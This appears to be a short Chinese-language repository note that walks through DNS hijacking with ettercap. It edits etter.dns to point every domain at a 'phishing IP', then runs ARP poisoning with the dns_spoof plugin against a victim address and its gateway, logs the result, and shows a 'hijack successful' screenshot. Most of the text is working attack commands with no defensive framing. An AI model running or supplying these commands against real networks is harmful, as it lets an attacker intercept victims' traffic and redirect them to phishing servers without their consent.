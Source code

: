 # 终端查看dns 命令
```
1. 查看dns缓存 ipconfig /displaydns
2. 刷新dns缓存 ipconfig /flushdns
```

# 1. 修改 /etc/ettercap/etter.dns 文件
    1. 添加下面
*   A   192.168.1.25 
*   PTR 192.168.1.25

* 代表 全部
A 代表 钓鱼ip
PTR 代表 常被用于地址代理解析

```
ettercap -i eth0 -Tq -M arp:remote -P dns_spoof /被攻击者ip// /被攻击者网关//
-i ：网卡
-T ：文本模式
-q ：安静模式
-M : 执行mitmI 攻击
-P ： plugin 插件
```


* 劫持 ettercap -i eth0 -Tq -M arp:remote -P dns_spoof /192.168.1.101// /192.168.1.1// > d.txt
* 查看日志 tail -f d.txt | grep "dns_spoof"
## 劫持成功
!["dns"](./dns1.jpg)

